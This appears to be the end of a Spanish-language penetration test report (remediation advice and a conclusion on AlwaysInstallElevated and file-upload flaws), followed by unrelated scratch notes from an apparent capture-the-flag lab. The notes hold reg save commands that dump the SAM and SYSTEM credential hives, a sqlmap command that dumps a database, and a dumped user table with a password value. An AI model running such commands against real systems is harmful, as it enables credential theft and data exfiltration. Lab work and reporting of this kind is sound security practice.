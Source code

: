 Consejos de remediación:

Implemente el principio de mínimo privilegio restringiendo el acceso a directorios y archivos sensibles.

Asegúrese de que solo los usuarios y administradores autorizados tengan acceso a los archivos y directorios críticos.

Audite periódicamente los permisos de directorios y archivos para garantizar que estén configurados correctamente.

Conclusión

Esta prueba de penetración reveló vulnerabilidades críticas que expusieron el sistema a accesos no autorizados y escalada de privilegios. Es necesario remediar de inmediato los problemas identificados, en particular la configuración incorrecta del registro AlwaysInstallElevated y la vulnerabilidad de carga de archivos sin restricciones, para mitigar el riesgo de explotación. Al abordar estas vulnerabilidades, la organización puede mejorar significativamente su seguridad y reducir la probabilidad de un ataque exitoso.






-------------------------------------------------------------------------------------------------------------------








-------------------------------------------------------------------------------------------------------------------

reg save hklm\\SYSTEM C:\\Users\\john\\Documents\\system.bak
reg save hklm\\SAM C:\\Users\\john\\Documents\\sam.bak





sqlmap -u "http://10.200.150.100:8080/api/v1.0/auth" --data='{"username":"admin","password":"admin"}' --headers="Content-Type: application/json" --method=POST --ignore-code=401 -D trybankmedbs --tables --dump

curl -H 'Content-Type: application/json' -X POST -d '{"Username" , "target51" , "pass" , "1234567890"}' http://10.200.150.100:8080/api/v1.0/xss
{"message":"Server error: 400 Bad Request: The browser (or proxy) sent a request that this server could not understand."}


Database: sequel
Table: user
[1 entry]
+----+------------------+---------------------+------------------------------------------+
| id | email            | created             | password                                 |
+----+------------------+---------------------+------------------------------------------+
| 1  | admin@sequel.thm | 2025-02-21 09:05:46 | zxQY7tN1iUz9EJ3l8zWezxQY7tN1iUz9EJ3l8zWe |
+----+------------------+---------------------+---------------------
